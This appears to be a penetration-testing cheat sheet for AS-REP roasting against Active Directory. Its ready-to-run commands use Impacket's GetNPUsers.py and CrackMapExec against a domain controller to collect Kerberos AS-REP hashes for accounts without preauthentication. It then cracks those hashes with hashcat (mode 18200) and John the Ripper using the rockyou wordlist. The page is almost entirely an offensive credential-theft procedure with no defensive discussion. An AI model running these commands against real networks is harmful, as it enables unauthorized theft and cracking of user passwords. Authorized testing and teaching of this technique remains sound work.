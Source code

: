 ```yaml
---
legal-banner: true
---
```


### **Using Impacket GetNPUsers.py**

1. Update the package list:  
   ```bash
   sudo apt-get update
   ```

2. Install Impacket:  
   ```bash
   sudo apt-get install python3-impacket
   ```

3. Enumerate accounts:  
   ```bash
   impacket-GetNPUsers -dc-ip [IP_ADDRESS] example.local/ -usersfile users.txt -no-pass -outputfile asrep_hashes.txt
   ```

4. Crack AS-REP hashes using Hashcat:  
   ```bash
   hashcat -m 18200 -a 0 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
   ```

5. Crack AS-REP hashes using John the Ripper:  
   ```bash
   john --format=krb5asrep --wordlist=wordlist.txt asrep_hashes.txt
   ```

### **Using CrackMapExec**

1. Enumerate accounts and retrieve AS-REP hashes:  
   ```bash
   crackmapexec smb [IP_ADDRESS] -u users.txt --asreproast asrep_hashes.txt
   ```
